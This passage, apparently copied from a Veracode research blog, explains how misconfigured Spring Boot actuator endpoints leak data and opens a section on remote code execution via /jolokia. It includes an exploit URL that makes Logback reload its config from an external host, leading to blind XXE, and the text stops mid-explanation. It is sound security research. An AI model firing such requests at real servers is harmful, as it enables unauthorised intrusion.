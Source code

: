 Spring Actuators

Page copied from https://www.veracode.com/blog/research/exploiting-spring-boot-actuators​
Exploiting Spring Boot Actuators

The Spring Boot Framework includes a number of features called actuators to help you monitor and manage your web application when you push it to production. Intended to be used for auditing, health, and metrics gathering, they can also open a hidden door to your server when misconfigured.

When a Spring Boot application is running, it automatically registers several endpoints (such as '/health', '/trace', '/beans', '/env' etc) into the routing process. For Spring Boot 1 - 1.4, they are accessible without authentication, causing significant problems with security. Starting with Spring version 1.5, all endpoints apart from '/health' and '/info' are considered sensitive and secured by default, but this security is often disabled by the application developers.

The following Actuator endpoints could potentially have security implications leading to possible vulnerabilities:

    /dump - displays a dump of threads (including a stack trace)

    /trace - displays the last several HTTP messages (which could include session identifiers)

    /logfile - outputs the contents of the log file

    /shutdown - shuts the application down

    /mappings - shows all of the MVC controller mappings

    /env - provides access to the configuration environment

    /restart - restarts the application

For Spring 1x, they are registered under the root URL, and in 2x they moved to the "/actuator/" base path.

Exploitation:

Most of the actuators support only GET requests and simply reveal sensitive configuration data, but several of them are particularly interesting for shell hunters:

1. Remote Code Execution via '/jolokia'

If the Jolokia Library is in the target application classpath, it is automatically exposed by Spring Boot under the '/jolokia' actuator endpoint. Jolokia allows HTTP access to all registered MBeans and is designed to perform the same operations you can perform with JMX. It is possible to list all available MBeans actions using the URL:

​http://127.0.0.1:8090/jolokia/list​

Again, most of the MBeans actions just reveal some system data, but one is particularly interesting:
reloadByURL

The 'reloadByURL' action, provided by the Logback library, allows us to reload the logging config from an external URL. It could be triggered just by navigating to:http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml​

So, why should we care about logging config? Mainly because of two things:

    Config has an XML format, and of course, Logback parses it with External Entities enabled, hence it is vulnerable to blind XXE.
